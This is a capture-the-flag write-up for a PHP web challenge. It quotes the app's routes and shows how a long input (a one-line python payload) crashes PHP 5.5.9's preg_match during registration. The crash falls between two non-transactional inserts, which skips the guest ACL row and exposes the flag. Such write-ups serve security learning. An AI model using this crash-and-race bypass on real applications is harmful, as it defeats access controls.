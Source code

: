 # guestroom

This is web challenge. First, let's see /flag routine.

## app.php

```php
$app->get('/flag', function () use ($app) {
    if (isset($_SESSION['is_logined']) === false || isset($_SESSION['is_guest']) === true) {
        $app->redirect('/#try+harder');
    }
    return $app->flag;
});
```

Both session variable is set in /login-2fa.

```php
$app->post('/login-2fa', function () use ($app) {
    if (isset($_SESSION['id']) === false) {
        $app->redirect('/#missing+login');
    }

    $code = (isset($_POST['code']) === true && $_POST['code'] !== '') ? (string)$_POST['code'] : die('Missing code');

    require_once('libs/PHPGangsta/GoogleAuthenticator.php');
    $ga = new PHPGangsta_GoogleAuthenticator();

    $sth = $app->pdo->prepare('SELECT secret FROM users WHERE id = :id');
    $sth->execute([':id' => $_SESSION['id']]);
    $secret = $sth->fetch()[0];
    if ($ga->verifyCode($secret, $code) === false) {
        $app->redirect('/login-2fa#invalid+auth');
    }

    $sth = $app->pdo->prepare('SELECT authorize FROM acl WHERE id = :id');
    $sth->execute([':id' => $_SESSION['id']]);
    if ($sth->fetch()[0] === 'GUEST') {
        $_SESSION['is_guest'] = true;
    }

    $_SESSION['is_logined'] = true;
    $app->redirect('/#logined');
});

```

Condition for is_guest is "`acl.authorize with id=$_SESSION['id']` is not GUEST", which is achievable if the value differs or does not exist (NULL). acl.authorize is inserted at /register. See <--.

```php
$app->post('/register', function () use ($app) {
    $id = (isset($_POST['id']) === true && $_POST['id'] !== '') ? (string)$_POST['id'] : die('Missing id');
    $pw = (isset($_POST['pw']) === true && $_POST['pw'] !== '') ? (string)$_POST['pw'] : die('Missing pw');
    $code = (isset($_POST['code']) === true) ? (string)$_POST['code'] : '';

    if (strlen($id) > 32 || strlen($pw) > 32) {
        die('Invalid input');
    }

    $sth = $app->pdo->prepare('SELECT id FROM users WHERE id = :id');
    $sth->execute([':id' => $id]);
    if ($sth->fetch() !== false) {
        $app->redirect('/#duplicate+id');
    }

    $sth = $app->pdo->prepare('INSERT INTO users (id, pw) VALUES (:id, :pw)');
    $sth->execute([':id' => $id, ':pw' => $pw]);

    preg_match('/\A(ADMIN|USER|GUEST)--((?:###|\w)+)\z/i', $code, $matches); // <--
    if (count($matches) === 3 && $app->code[$matches[1]] === $matches[2]) {
        $sth = $app->pdo->prepare('INSERT INTO acl (id, authorize) VALUES (:id, :authorize)');
        $sth->execute([':id' => $id, ':authorize' => $matches[1]]);
    } else {
        $sth = $app->pdo->prepare('INSERT INTO acl (id, authorize) VALUES (:id, "GUEST")');
        $sth->execute([':id' => $id]);
    }

    $app->redirect('/#registered');
});

```

Since the server's php version is exposed and it is 5.5.9, I doubted that preg_match has some vulnerability. It was right. For testing I wrote a simple script.

```php
<?php
$code = file_get_contents("php://stdin");
preg_match('/\A(ADMIN|USER|GUEST)--((?:###|\w)+)\z/i', $code, $matches);
```

```
$ python -c 'print "GUEST--" + "0a" * 10000'|php check.php
Segmentation fault

```

Hooray! Since without transaction, each query is auto-commit mode, and if php crashes between two queries(INSERT INTO users / acl), I can bypass the condition. It worked. After giving the payload as `$_POST['code']`, I could get the flag after doing 2fa.